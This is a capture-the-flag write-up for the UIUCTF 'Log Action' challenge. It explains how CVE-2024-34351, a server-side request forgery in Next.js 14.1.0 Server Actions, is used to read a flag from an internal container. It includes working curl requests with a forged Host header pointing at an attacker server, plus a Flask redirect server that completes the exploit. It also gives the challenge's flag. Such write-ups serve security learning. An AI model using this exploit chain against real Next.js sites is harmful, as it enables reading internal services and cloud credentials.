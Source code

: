 ## Log Action (431 points)

### Description
I keep trying to log in, but it's not working :'(
[http://log-action.challenge.uiuc.tf/](http://log-action.challenge.uiuc.tf/)

### Application analysis
The application is dockerized and consists of two containers:
- **backend**: A simple `nginx` image with `flag.txt` in the `/usr/share/nginx/html/` directory.
- **frontend**: A `node`, `next-js` application available under the challenge URL.

#### Backend
The `backend` container does not have any ports mapped, so it is not accessible externally. This setup suggests the potential for an SSRF vulnerability. To verify this, I attempted to fetch the `flag.txt` from the `frontend` container:
```bash
wget backend/flag.txt
```
This successfully downloaded `flag.txt`.

#### Frontend
The `next-js` application consists of:
- `src/app/page.tsx`: Landing page with a link to the `login` page.
- `src/app/login/page.tsx`: Login page with a simple username/password form, utilizing the `authenticate` action imported from `src/lib/actions.ts`.
- `src/app/logout/page.tsx`: Logout page with a form utilizing an inlined action that uses the `signOut` method from the `next-auth` API and the `redirect` function from `next-js`.
- `src/lib/actions.ts`: Server actions file defining the `authenticate` function.
- `src/auth.config.ts`: Configuration file for `next-auth`.
- `src/auth.ts`: File with `NextAuth` middleware instance.

The `package.json` file lists the following dependencies:
```json
{
	"dependencies": {  
		"bcrypt": "^5.1.1",  
		"next": "14.1.0",  
		"next-auth": "^5.0.0-beta.19",  
		"react": "^18.3.1",  
		"react-dom": "^18.3.1",  
		"zod": "^3.23.8"  
	}
}
```

One notable thing is that unlike other dependencies, `next` is locked to version `14.1.0`. A quick search shows that this version has the following vulnerability: `Server-Side Request Forgery in Server Actions` with CVE assigned: `CVE-2024-34351`. This sounds like something we could exploit :)

### SSRF (CVE-2024-34351) requirements
Let's read the research notes posted by the researchers who found the vulnerability: https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps. Citing the authors:
```
To recap, to be vulnerable to this SSRF, we require that:

- A server action is defined;
- The server action redirects to a URL starting with /;
- We are able to specify a custom Host header while accessing the application.
```
It looks like we can fulfill all the requirements:
- the `authenticate` server action is defined in `src/lib/actions.ts` and it executes `redirect('/admin')`
- the inlined server action is defined in `src/app/logout/page.tsx` and it executes `redirect('/logout')`
- we can directly access the frontend application and send it any headers we want

### The sink
Let's look at how we can fire any of the`redirect('/...')`.

#### src/lib/actions.ts
```typescript
"use server";  
import { AuthError } from "next-auth";  
import { signIn } from "@/auth";  
import { redirect } from "next/navigation";  
export async function authenticate(  
  prevState: string | undefined,  
  formData: FormData,  
) {  
  let foundError = false;  
  try {  
    await signIn('credentials', formData);  
  } catch (error) {  
    if (error instanceof AuthError) {  
      foundError = true;  
      switch (error.type) {  
        case 'CredentialsSignin':  
          return 'Invalid credentials.';  
        default:  
          return 'Something went wrong.';  
      }    
    }    
    throw error;  
  } finally {  
    if (!foundError) {  
      redirect('/admin');  
    }  
  }
}
```
To fire the `redirect()` in the `authenticate` function, we would need to first correctly sign in or cause the process to throw an error other than `AuthError` (because then, `foundError=false`). It doesn't look trivial because the `authorize` function in `src/auth.js`:
- requires the password to be `randomBytes(16).toString("hex")` which is a random, not guessable string
- uses `zod`'s `safeParse` function, so it shouldn't throw any errors

#### src/app/logout/page.tsx
```typescript
import Link from "next/link";
import { redirect } from "next/navigation";
import { signOut } from "@/auth";

export default function Page() {
  return (
    <>
      <h1 className="text-2xl font-bold">Log out</h1>
      <p>Are you sure you want to log out?</p>
      <Link href="/admin">
        Go back
      </Link>
      <form
        action={async () => {
          "use server";
          await signOut({ redirect: false });
          redirect("/login");
        }}
      >
        <button type="submit">Log out</button>
      </form>
    </>
  )
}
```
To fire the `redirect()` in the inlined action, we would just need to submit the form. The `/logout` page and this form are accessible without a user session, so it looks like it satisfies our needs :).

### Exploitation
#### Triggering the vulnerable action
To exploit this vulnerability, we need the `Next-Action` ID to trigger the action. Navigate to the logout page (http://log-action.challenge.uiuc.tf/logout), hit the `Log out` button, and grab the `Next-Action` header from the Network tab in Chrome. This simple `curl` request triggers the server action:
```bash
curl 'http://log-action.challenge.uiuc.tf/logout' \
  -H 'Content-Type: application/json' \
  -H 'Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de' \
  --data-raw '{}'
```

#### Setting up the server
Let's go back to the vulnerability authors' post. To perform the exploit, we will need to, citing the authors again:
```
- Set up a server that takes requests on any path.
- On any HEAD request, return a 200 with Content-Type: text/x-component.
- On a GET request, return a 302 to our intended SSRF target (such as metadata.internal or the like)
- When NextJS fetches from our server, it will satisfy the preflight check on our HEAD request, but will follow the redirect on GET, giving us a full read SSRF!
```
Let's set up such a server. We'll just copy a simple flask server code provided in the post and adjust the redirect URL so it fetches the flag from `backend` container:
```python
from flask import Flask, Response, request, redirect
app = Flask(__name__)

@app.route('/', defaults={'path': ''})
@app.route('/<path:path>')
def catch(path):
	if request.method == 'HEAD':
		resp = Response("")
		resp.headers['Content-Type'] = 'text/x-component'
		return resp
	return redirect('https://backend/flag.txt')
```

#### Crafting the payload
Now, the last thing to do is to add our custom `Host` header to the URL pointing to our server:
```bash
curl 'http://log-action.challenge.uiuc.tf/logout' \
  -H 'Content-Type: application/json' \
  -H 'Next-Action: c3a144622dd5b5046f1ccb6007fea3f3710057de' \
  -H 'Host: attacker.server' \
  --data-raw '{}'
```
And boom! We get the flag:
```
uiuctf{close_enough_nextjs_server_actions_welcome_back_php}
```

### Credits
- Minh (https://whitehoodhacker.net/) for creating this challenge
- Adam Kues and Shubham Shah from Assetnote for finding the vulnerability in `next-js` Server Actions and publishing this nice note: https://www.assetnote.io/resources/research/digging-for-ssrf-in-nextjs-apps
